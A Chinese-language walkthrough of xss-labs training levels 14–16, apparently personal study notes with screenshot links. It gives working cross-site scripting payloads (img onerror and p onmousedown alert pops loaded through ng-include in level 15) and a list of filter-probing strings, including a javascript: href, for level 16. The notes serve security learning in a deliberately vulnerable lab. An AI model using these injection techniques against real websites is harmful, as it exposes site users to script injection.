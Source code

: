 # level-14

题有问题，不做测试

# level-15

![image-20230928221210987](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928221210987.png)

![image-20230928221239018](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928221239018.png)

有个陌生的东西ng-include

```
ng-include 指令用于包含外部的 HTML文件。
包含的内容将作为指定元素的子节点。
ng-include 属性的值可以是一个表达式，返回一个文件名。
默认情况下，包含的文件需要包含在同一个域名下。

ng-include,如果单纯指定地址，必须要加引号
ng-include,加载外部html，script标签中的内容不执行
ng-include,加载外部html中含有style标签样式可以识别
localhost/xss-labs-master/level15.php?src='level1.php?name=<img src=0 οnerrοr=alert(/tubage/)>'
```

输入

```
?src='level1.php?name=<img src=0 onerror=alert()>'
```

弹窗成功

也能用p标签

```
?src='/level1.php?name=<p onmousedown=alert()>哈哈哈</p>'
```

点击哈哈哈成功弹窗

实体化函数，形同虚设

 **本关小结**：ng-include文件包涵，可以无视html实体化

# level16

![image-20230928224420822](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928224420822.png)

参数在标签里，所以不用闭合了

试一下过滤了哪些

```
" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()> &#106; 
```
